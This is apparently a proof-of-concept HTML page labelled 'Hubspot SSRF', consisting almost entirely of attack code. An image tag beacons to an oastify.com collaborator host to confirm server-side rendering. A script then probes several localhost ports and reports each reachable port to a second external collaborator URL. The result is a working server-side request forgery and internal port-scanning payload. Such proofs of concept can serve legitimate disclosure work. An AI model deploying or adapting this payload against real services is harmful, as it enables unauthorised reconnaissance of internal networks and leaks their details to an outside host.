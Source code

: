 ## Hubspot SSRF

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>SSRF PoC</title>
</head>

<body>
    <h1>Hello</h1>
    <img src="https://d3h4esvh2je58ucwomm7ig844vamygm5.oastify.com/?ItsRenderingHtml">
    <script>
        const ports = [22, 80, 443, 8000, 8080, 3000, 5000];
        const host = "http://localhost";

        ports.forEach(port => {
            fetch(`${host}:${port}`, { mode: "no-cors" })
                .then(() => fetch(`https://99g0ko1d8fk1eqisuis3oce0argi4ds2.oastify.com/?open=${port}`))
                .catch(() => { });
        });

    </script>
</body>

</html>